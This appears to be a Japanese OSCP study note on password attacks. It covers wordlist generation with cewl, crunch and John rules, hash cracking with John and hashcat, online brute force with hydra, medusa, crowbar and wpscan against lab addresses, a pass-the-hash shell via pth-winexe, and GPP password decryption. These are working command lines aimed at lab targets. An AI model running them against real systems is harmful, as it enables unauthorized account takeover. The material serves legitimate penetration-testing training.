







# PasswordAttacks

[toc]

## wordlistの作成(cewl)

```
cewl www.megacorpone.com -m 3 -w megacorp-cewl.txt
wc -l megacorp-cewl.txt
grep Nano megacorp-cewl.txt
```


## wordlistの末尾に数字2桁を自動付与する方法

John the ripperの設定ファイルにルールを追加する

```
sudo cp /etc/john/john.conf /etc/john/john.conf.bak
sudo nano /etc/john/john.conf
```

```bash
kali@kali:~$ sudo nano /etc/john/john.conf
...
# Wordlist mode rules
[List.Rules:Wordlist]
# Try words as they are
:
# Lowercase every pure alphanumeric word
-c >3 !?X l Q
# Capitalize every pure alphanumeric word
-c (?a >2 !?X c Q
# Lowercase and pluralize pure alphabetic words
...
# Try the second half of split passwords
-s x_
-s-c x_ M l Q
# Add two numbers to the end of each password
$[0-9]$[0-9]
...
```

特殊文字を含む例

```
$[0-9]$[0-9]$[0-9]$[0-9]$[$%^&*()-_+=|\<>[\]{}#@/~]$[$%^&*()-_+=|\<>[\]{}#@/~]
```

https://miloserdov.org/?p=5477

https://www.openwall.com/john/doc/RULES.shtml

hashcatも同様のルールを踏襲している。

```
john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
grep Nanobot mutated.txt
```

--wordlist：辞書ファイルを指定

--rules：設定ファイルのルールを有効

--stdout：結果を標準出力に出力


## crunchを用いたwordlist作成

| PLACEHOLDER | CHARACTER TRANSLATION              |
| ----------- | ---------------------------------- |
| @           | Lower case alpha characters        |
| ,           | Upper case alpha characters        |
| %           | Numeric characters                 |
| ^           | Special characters including space |

* 8桁のパスワードリストを作成

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/19.PasswordAttacks]
└─$ crunch 8 8 -t ,@@^^%%%                                                                                
Crunch will now generate the following amount of data: 172262376000 bytes
164282 MB
160 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 19140264000 
```

* 文字を指定して作成

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/19.PasswordAttacks]
└─$ crunch 4 6 0123456789ABCDEF -o crunch.txt                                                             
Crunch will now generate the following amount of data: 124059648 bytes
118 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 17891328 
```

* あらかじめ定義された文字セットを利用して作成

```bash
kali@kali:~$ crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt
Crunch will now generate the following amount of data: 140712049920 bytes
134193 MB
131 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 20158125312 
```


## medusaを用いたパスワードリスト攻撃

```bash
medusa -h 192.168.250.10 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

# 対応プロトコルの確認
medusa -d
```


## Crowbarを用いたパスワードリスト（RDP）

```
sudo apt install crowbar
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

* -b：プロトコル


## ハッシュ種類の特定

```bash
hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e5NAz/s7DQcAojRTWNpZX0'
```

※ハッシュは必ず`''`で囲むこと！

## John the ripper

パスワードリストとハッシュファイルを用意すること

.rarファイルの場合

```
rar2john flag.rar > /home/student/hash.txt
zip2john flag.zip > hash.txt
```

```
john --wordlist=/home/student/mutated.txt /home/student/hash.txt 
```

NTLM形式

```
alice:1004:aad3b435b51404eeaad3b435b51404ee:b74242f37e47371aff835a6ebcac4ffe:::
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

ワードマングリング

```
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

NT：NTLMハッシュ

https://miloserdov.org/?p=5477

https://www.openwall.com/john/doc/RULES.shtml

* /etc/shadowのハッシュについて
* http://hitsumabushi-pc.blogspot.com/2011/12/etcshadow.html
* 


### Hashcat

```bash
hashcat -m 1000 -a 0 077cccc23f8ab7031726a3b70c694a49 /usr/share/wordlists/rockyou.txt
```

-m：hash-type

https://hashcat.net/wiki/doku.php?id=example_hashes

ここでどのハッシュかを確認しながら設定するパラメータを決めるとよい

もしくは`hashcat --help | less`でみる。こちらの方はカテゴリタイプがあっていい。



-a：attack-mode



```bash
hashcat --help
```


### hydra

```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```

```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt 172.18.0.2 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F172.18.0.2%2Fwp-admin%2F&testcookie=1:F=incorrect.'
```

### WPscan

```bash
wpscan --url http://localhost:80/ -U offset -P /usr/share/wordlists/rockyou.txt
```

https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation

### secList

https://github.com/danielmiessler/SecLists/tree/master/Passwords

### patator(mysql)

https://www.kali.org/tools/patator/


## Pass the Hash (pth-winexe)

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/19.PasswordAttacks]
└─$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.250.10 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

※offsec%<1つ目のハッシュ>：<2つ目のハッシュ>のうち2つ目はNTLMハッシュだが1つ目のハッシュが何者か現時点わかっていない。

↓これが答え。1つ目は空のLMハッシュ

https://yougottahackthat.com/blog/339/what-is-aad3b435b51404eeaad3b435b51404ee


### burp suite intruder(9章に詳細説明あり)

パスワードのみ変数設定する



cewlで作成したパスワードリストを設定する



攻撃をスタートする。応答の長さで判断する



### Group.xml(windows)

https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/



```bash
┌──(kali㉿kali)-[~/Documents/HTB/Active]
└─$ gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

